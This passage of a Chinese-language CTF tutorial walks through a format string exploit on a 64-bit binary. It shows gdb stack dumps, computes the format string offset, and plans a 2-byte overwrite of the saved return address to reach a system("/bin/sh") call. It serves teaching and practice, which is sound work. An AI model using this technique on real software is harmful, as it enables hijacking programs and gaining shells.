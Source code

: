 ```text
>1
...
```

此时栈的情况为

```text
─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
     0x400b1a                  call   0x400758
     0x400b1f                  lea    rdi, [rbp+0x10]
     0x400b23                  mov    eax, 0x0
 →   0x400b28                  call   0x400770
   ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0
        0x400776                  xchg   ax, ax
        0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8
        0x40077e                  xchg   ax, ax
────────────────────────────────────────────────────────────────────[ stack ]────
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以发现我们输入的用户名在栈上第三个位置，那么除去本身格式化字符串的位置，其偏移为为 5 + 3 = 8。

#### 修改地址

我们再仔细观察下断点处栈的信息

```text
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"	 ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以看到栈上第二个位置存储的就是该函数的返回地址(其实也就是调用 show account 函数时执行 push rip 所存储的值)，在格式化字符串中的偏移为 7。

与此同时栈上，第一个元素存储的也就是上一个函数的 rbp。所以我们可以得到偏移 0x00007fffffffdb80 - 0x00007fffffffdb48 = 0x38。继而如果我们知道了 rbp 的数值，就知道了函数返回地址的地址。

0x0000000000400d74 与 0x00000000004008A6 只有低 2 字节不同，所以我们可以只修改 0x00007fffffffdb48 开始的 2 个字节。

这里需要说明的是在某些较新的系统(如 ubuntu 18.04)上, 直接修改返回地址为 0x00000000004008A6 时可能会发生程序 crash, 这时可以考虑修改返回地址为 0x00000000004008AA,  即直接调用 system("/bin/sh") 处

